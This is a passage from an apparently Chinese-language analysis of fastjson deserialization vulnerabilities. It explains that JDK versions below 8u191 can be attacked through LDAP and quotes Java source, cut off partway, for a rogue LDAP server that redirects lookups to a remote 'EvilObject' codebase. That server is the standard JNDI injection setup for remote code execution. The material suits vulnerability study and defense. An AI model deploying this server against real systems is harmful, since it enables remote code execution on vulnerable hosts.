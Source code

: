 ![1565075377588](/../Java%E5%AE%89%E5%85%A8/fastjson%E5%88%86%E6%9E%90/img/1565075377588.png)

这里对于JDK8u191以下的版本可以采用LDAP来绕过，网上的一份使用com.unboundid.ldap的exp

```java
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;


public class LdapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
```